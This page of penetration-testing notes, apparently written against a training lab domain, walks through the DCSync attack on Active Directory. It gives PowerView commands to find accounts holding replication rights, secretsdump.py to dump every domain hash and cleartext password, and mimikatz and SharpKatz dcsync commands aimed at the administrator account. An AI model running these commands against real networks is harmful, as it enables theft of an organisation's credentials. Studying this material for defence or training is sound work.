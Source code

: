 # DCSync

technique for stealing the Active Directory password database by using the built-in \*\*`Directory Replication Service Remote Protocol (DRS**)`, which is used by Domain Controllers to replicate domain data. **use to read NTDS file (read all hashes of users)**

{% hint style="warning" %}
**need privilege `DS-Replication-Get-Changes-All`**
{% endhint %}

![image.png](<../../../../.gitbook/assets/image (1) (1).png>)

***

*   **Using Get-DomainUser to View adunn's Group Membership - SID**

    ```powershell
    Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
    ```

    <figure><img src="../../../../.gitbook/assets/image 1 (1).png" alt=""><figcaption></figcaption></figure>
*   **show privilege using sid**

    ```powershell
    $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
    Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
    ```

    ```powershell
    AceQualifier          : AccessAllowed
    ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
    ActiveDirectoryRights : ExtendedRight
    SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
    ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set

    AceQualifier          : AccessAllowed
    ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
    ActiveDirectoryRights : ExtendedRight
    SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
    ObjectAceType         : DS-Replication-Get-Changes
    ```
*   **Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py**

    ```powershell
    secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
    ```

    <figure><img src="../../../../.gitbook/assets/image 2 (1).png" alt=""><figcaption></figcaption></figure>

    **now we have 3 files with different type**
*

    <figure><img src="../../../../.gitbook/assets/image 3.png" alt=""><figcaption></figcaption></figure>
*   **Reversible Encryption**

    feature which using when service demand password as a clear text

    ![2025-06-27 15\_19\_25-reverse\_encrypt.png (1206×605) - Brave.png](<../../../../.gitbook/assets/2025 06 27_15_19_25 reverse_encrypt.png_(1206605)_ _Brave.png>)
*   **Enumerating Further using Get-ADUser**

    ```powershell
    Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
    ```

    <figure><img src="../../../../.gitbook/assets/image 4.png" alt=""><figcaption></figcaption></figure>
*   **Checking for Reversible Encryption Option using Get-DomainUser**

    ```powershell
    Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
    ```

    <figure><img src="../../../../.gitbook/assets/image 5.png" alt=""><figcaption></figcaption></figure>
*   **Displaying the Decrypted Password**

    ```powershell
    cat inlanefreight_hashes.ntds.cleartext 
    ```

    <figure><img src="../../../../.gitbook/assets/image 6.png" alt=""><figcaption></figcaption></figure>

    We will notice the tool decrypted the password and provided us with the cleartext value.

***

### **Performing the DSync Attack with Mimikatz**

we use **runas.exe** to perform Mimikatz work with the privilege of target user

### **Using runas.exe**

to use Mimikatz u must to target one user not all domain user like `secretsdump.py`

```powershell
runas /netonly /user:INLANEFREIGHT\adunn powershell
```

```powershell
.\mimikatz.exe SyncMaster757
```

<figure><img src="../../../../.gitbook/assets/image 7.png" alt=""><figcaption></figcaption></figure>

```powershell
privilege::debug
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```

### **using sharpKatz**

```powershell
.\sharpKatz.exe --Command dcsync 
```

***
